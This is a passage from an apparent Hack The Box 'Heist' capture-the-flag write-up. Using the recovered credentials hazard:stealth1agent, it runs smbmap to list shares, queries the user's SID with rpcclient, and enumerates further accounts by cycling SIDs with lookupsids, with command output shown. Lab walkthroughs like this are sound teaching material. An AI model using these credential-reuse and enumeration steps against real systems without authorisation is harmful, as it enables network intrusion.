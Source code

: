 I found one valid account: `hazard:stealth1agent`

Scanning with `smbmap` I don't find any open shares that this user has access to:

```
root@kali:~/htb/heist# smbmap -u hazard -p stealth1agent -H 10.10.10.149
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

With `rpcclient` I can connect and query the SID for the `hazard` user:

```
root@kali:~/htb/heist# rpcclient -U hazard 10.10.10.149
Enter WORKGROUP\hazard's password:

rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```

I can enumerate the list of users with `lookupsids` by changing the last digit of the SID

![](/assets/images/htb-writeup-heist/sids.png)

I got two additional users: `chase` and `jason`
